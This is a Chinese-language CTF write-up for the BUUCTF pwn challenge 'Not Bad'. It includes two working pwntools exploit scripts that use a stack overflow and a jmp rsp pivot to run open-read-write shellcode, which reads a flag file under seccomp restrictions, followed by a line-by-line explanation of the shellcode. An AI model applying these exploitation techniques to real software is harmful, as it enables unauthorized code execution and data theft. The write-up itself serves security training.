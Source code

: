 # [极客大挑战 2019]Not Bad+orw 手写shell加跳转jmp

由于已经把pwn的大部分基础学完了那么就开始刷题

这里我们开始尝试写一个buu上的题目

我们先看他的保护

![image-20250421174112768](..\images\image-20250421174112768.png)

并且同样还要看一下ida

![image-20250421174228017](..\images\image-20250421174228017.png)

这里我们可以明白一个有着要给栈溢出

![image-20250421174306892](..\images\image-20250421174306892.png)

在这里我们可以明白这个程序堆数据进行了一个shabox的加了因此我们要用工具看一下他的特定保护

![image-20250421174556074](..\images\image-20250421174556074.png)

这里我们可以看到他只允许使用read，write，open和exit函数因此我们只能使用orw的方法来进行一个攻击

因此我们先编写脚本

由于我们要构造一个shellcode因此我们要提前早到一个可以执行和写入的一个地方

因此我们要使用gdb工具来进行一个查看orw的位置

![image-20250421175217714](..\images\image-20250421175217714.png)

从这里我们可以知道我们在这个栈位置上可以写如两个地方的shellcode位置因此我们可以网0x12300的位置写入这个是一个固定的位置是由mmap函数在main中进行一个设置因此往这里写入我们就不用泄露栈的地址了

因此我们编写脚本

exp

```python
from pwn import *
# io = remote("node5.buuoj.cn",28983)
context.arch="amd64"
io = process("/home/fofa/bad")
mmap = 0x123000

orw_payload = shellcraft.open("./flag")
orw_payload += shellcraft.read(3,mmap,0x50)
orw_payload += shellcraft.write(1,mmap,0x50)



jmp_rsp = 0x400A01
payload = asm(shellcraft.read(0, mmap, 0x100)) + asm('mov rax,0x123000;call rax')
payload = payload.ljust(0x28, b'\x00')
payload += p64(jmp_rsp) + asm('sub rsp,0x30;jmp rsp')#返回地址要到
io.recvuntil('Easy shellcode, have fun!')

gdb.attach(io)

io.sendline(payload)

shellcode=asm(orw_payload)
io.sendline(shellcode)

io.interactive()


```

这里的shellcode我们先构造一个读写执行的位置我们要向0x123000的位置读入并且我们写入的orw的位置也在这个位置因此我们要去这个位置进行要去这个位置去获取程序，因此我们要对buf的位置进行一个shellcode的跳转，跳到我们的构造好的数据地址去

其中后面的jmp_rsp+asm的数据就是一个栈迁移的一种新方法

通过jmp去控制rsp的位置因此我们可以获得数据

但是这个可以是可以手动构造shellcode这里附上exp脚本

```python
 1 from pwn import *
 2 context.arch='amd64'
 3 context.log_level='debug'
 4 
 5 s=remote('node4.buuoj.cn',26979)
 6 #s=process('./bad')
 7 
 8 jmp_rsp=0x400a01
 9 shellcode1='''
10     xor rdi, rdi
11     mov rsi, 0x123000
12     mov rdx, 0x100
13     mov rax, 0
14     syscall
15     mov rax, 0x123000
16     call rax
17 '''
18 
19 shellcode2='''
20     mov rdi, 0x67616c662f2e  //这个是.\flag由于小端序存储的倒着写的 gafl\.的16进制表示。
21     push rdi
22     mov rdi, rsp//这个是一个是调用open的函数调用号他的函数调用号为也就是rax为2
23     mov rsi, 0
24     mov rdx, 0
25     mov rax, 2
26     syscall
27     mov rdi, 3
28     mov rsi, rsp
29     mov rdx, 0x100
30     mov rax, 0
31     syscall
32     mov rdi, 1
33     mov rsi, rsp
34     mov edx, 0x100
35     mov rax, 1
36     syscall
37 '''
38 payload=asm(shellcode1)
39 payload=payload.ljust(0x28,b'\x00')
40 payload+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')
41 s.sendline(payload)
42 
43 s.send(asm(shellcode2))
44 
45 s.interactive()
```



---

## shellcode分析

这段代码是一个简单的shellcode，用于在Linux环境下通过系统调用（`syscall`）打开文件并读取内容后输出。以下是对这段代码的逐行分析：

### 1. 文件路径准备

assembly

复制

```assembly
mov rdi, 0x67616c662f2e
```

- 将文件路径 `.\flag` 的16进制表示（小端序）存入寄存器 `rdi`。
- 小端序存储时，`.\flag` 的16进制表示为 `67616c662f2e`，即 `gafl\.`。

assembly

复制

```assembly
push rdi
```

- 将 `rdi` 的内容（即文件路径）压入栈中。

assembly

复制

```assembly
mov rdi, rsp
```

- 将栈指针 `rsp` 的值存入 `rdi`，此时 `rdi` 指向栈顶，即文件路径的地址。

### 2. 打开文件

assembly

复制

```assembly
mov rsi, 0
mov rdx, 0
mov rax, 2
syscall
```

- 这里调用系统调用 `open`（`sys_open`，系统调用号为 `2`）。
  - `rdi`：文件路径（栈顶地址，即 `.\flag`）。
  - `rsi`：文件打开模式（`0` 表示只读模式）。
  - `rdx`：文件权限（`0`，在只读模式下通常不需要设置）。
  - `rax`：系统调用号 `2`。
- 调用完成后，文件描述符会存放在 `rax` 中。

### 3. 读取文件内容

assembly

复制

```assembly
mov rdi, 3
mov rsi, rsp
mov rdx, 0x100
mov rax, 0
syscall
```

- 这里调用系统调用 `read`（`sys_read`，系统调用号为 `0`）。
  - `rdi`：文件描述符（`3`，假设 `open` 调用成功，文件描述符为 `3`）。
  - `rsi`：缓冲区地址（栈顶地址，用于存放读取的数据）。
  - `rdx`：读取的字节数（`0x100`，即 256 字节）。
  - `rax`：系统调用号 `0`。
- 调用完成后，读取的字节数会存放在 `rax` 中，文件内容被存放在栈顶。

### 4. 输出内容

assembly

复制

```assembly
mov rdi, 1
mov rsi, rsp
mov edx, 0x100
mov rax, 1
syscall
```

- 这里调用系统调用 `write`（`sys_write`，系统调用号为 `1`）。
  - `rdi`：文件描述符（`1`，表示标准输出）。
  - `rsi`：缓冲区地址（栈顶地址，即读取的文件内容）。
  - `edx`：写入的字节数（`0x100`，即 256 字节）。
  - `rax`：系统调用号 `1`。
- 调用完成后，文件内容会被输出到标准输出（通常是终端）。
